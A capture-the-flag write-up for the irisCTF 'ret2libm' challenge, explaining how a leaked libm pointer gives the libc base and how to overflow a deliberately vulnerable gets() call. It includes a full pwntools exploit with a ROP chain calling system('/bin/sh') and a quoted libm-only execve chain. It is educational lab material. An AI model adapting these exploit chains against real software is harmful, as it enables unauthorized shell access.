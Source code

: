 ```yaml
---
title: "irisCTF ret2libm"
date: 2023-02-01T12:13:32+05:30
description: "ret2libc but someone added this libm thing... What is that?"
tags: [python, ret2libc, pwn]
---
```


## The Challenge

I need to make a pwn? Let's go with that standard warmup rop thing... what was it... ret2libm?\
Author: sera\
[ret2libm.zip](https://cdn.discordapp.com/attachments/1056103369695047750/1056146650860621834/ret2libm.zip) / [Dockerfile](https://cdn.discordapp.com/attachments/1056103369695047750/1061498899271004251/Dockerfile)

## The Provided ZIP

- chal
  - Provided binary
- chal.c
  - Source which binary comes from
- libc-2.27.so
  - Provided libc version
- libm-2.27.so
  - Provided libm version
- Makefile
  - Provided compilation flags

## What is libm?

- `#include <math.h>`
  - libm is the standard math library for C.

## Where does libm live?

```x86asm
$ ldd chal
        linux-vdso.so.1 (0x00007fffd53f5000)
        libm.so.6 => /lib/x86_64-linux-gnu/libm.so.6 (0x00007efd9df21000)
        libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007efd9dd40000)
        /lib64/ld-linux-x86-64.so.2 (0x00007efd9e247000)
```

libm lives above libc in the dynamic linking of the binary, meaning we can compute the base address of libc from the base address of libm since the offset is always the same.

## chal.c

```c
#include <math.h>
#include <stdio.h>

int main(int argc, char* argv) {
    char yours[8];
    printf("Check out my pecs: %p\n", fabs);    // Function pointer leak
    printf("How about yours? ");
    gets(yours);                                // Vulnerable gets() call
    printf("Let's see how they stack up.");
    return 0;
}
```

## Plan of Attack

1. Get the leaked fabs() address
2. Calculate the base address of libm
3. Calculate the base address of libc
4. Overflow the gets() call
5. Build a ROP chain off of libc gadgets
6. Shell?

## Actually Executing That

1. Get the leaked fabs() address

```py
p.recvuntil(b'pecs: ')
fabs_libm_leak = int(p.recvline().strip(b"\n"), 0)
```

2. Calculate the base address of libm

```py
# fabsf64 from GDB
# readelf -s libm-2.27.so | grep fabsf64
# 0x7fe539640000 - 0x7fe539a31000 = 0x3f1000 
# Offset = 0x31cf0
libm.address = fabs_libm_leak - (libm.sym['fabsf64']) 
```

3. Let’s finish up this PWN!

```py
libc.address = libm.address - 0x3f1000                      # Use calculated offset to set libc
…
chain = b''
chain += cyclic(16)                                         # 16 Byte Overflow
chain += p64(r_libc.find_gadget(['ret'])[0])                # Realign stack
chain += p64(r_libc.find_gadget(['pop rdi', 'ret'])[0])     # system() paremeter
chain += p64(next(libc.search(b'/bin/sh')))                 # Load /bin/sh into system()
chain += p64(libc.sym['system'])                            # Run as system call
…
p.interactive()
```

## Flag Acquired

`irisctf{oh_ its_ ret2libc_anyway}`

## Cool Other Write-Up

All credit for the code below is from [Elvis#6356](https://discord.com/channels/1051808836593397781/1061791437785677905/1061922707874263172). This uses only libm to build the exploit and make an execve syscall.

```py
    syscall = libm_base + 0x3f39
    pop_rsi = libm_base + 0x289d3
    pop_rdi = libm_base + 0x0bc37
    pop_rdx = libm_base + 0x4c5c2
    pop_rax = libm_base + 0x1a3c8
    mov_dword_rdi_edx = libm_base + 0x51106     # Used to load /bin/sh into writable memory
...
   payload += p64(pop_rdi)
    payload += p64(writable_addr)
    payload += p64(pop_rsi)
    payload += p64(0)
    payload += p64(pop_rdx)
    payload += p64(0)
    payload += p64(pop_rax)
    payload += p64(59)
    payload += p64(syscall)                     # execve(“/bin/sh”, 0, 0)
```

## Final Exploit Code

```py
# ret2libm2libc
from pwn import *
context.log_level = 'debug'

# Setup for Run
binary = args.BIN
context.terminal = ["tmux", "splitw", "-h"]

# Break gets()
gs = '''
break *main+131
continue
'''

# Load In Binary & ROPGadget it
e = context.binary = ELF(binary,checksec=False)
r = ROP(e)

def start():
    if args.GDB:
        return gdb.debug(e.path, gdbscript=gs)
    else:
        return process(e.path)

# Stuff
p = start()

# Leak LibM address
p.recvuntil(b'pecs: ')
fabs_addr = p.recvline().strip(b"\n")
print(fabs_addr)
fabs_libm_leak = int(fabs_addr, 0)

# Load in teh libs
libc = ELF('libc-2.27.so', checksec = False)
libm = ELF('libm-2.27.so', checksec = False)

# Calculate LibM base
libm.address = fabs_libm_leak - (libm.sym['fabsf64']) # fabsf64 from GDB # 0x31cf0
log.info('LibM base is at 0x%x ' %libm.address)


# Set LibC address correctly
libc.address = libm.address - 0x3f1000
log.info('LibC base is at 0x%x ' %libc.address)

# ROP LibC with new base addresses
r_libc = ROP(libc)

# ret2libc chain
chain = b''
chain += cyclic(16)
chain += p64(r_libc.find_gadget(['ret'])[0])            
chain += p64(r_libc.find_gadget(['pop rdi', 'ret'])[0]) 
chain += p64(next(libc.search(b'/bin/sh')))            
chain += p64(libc.sym['system'])                        

# Send the chain
p.sendlineafter(b'How about yours?', chain)

# Shell plz?
p.interactive()
```
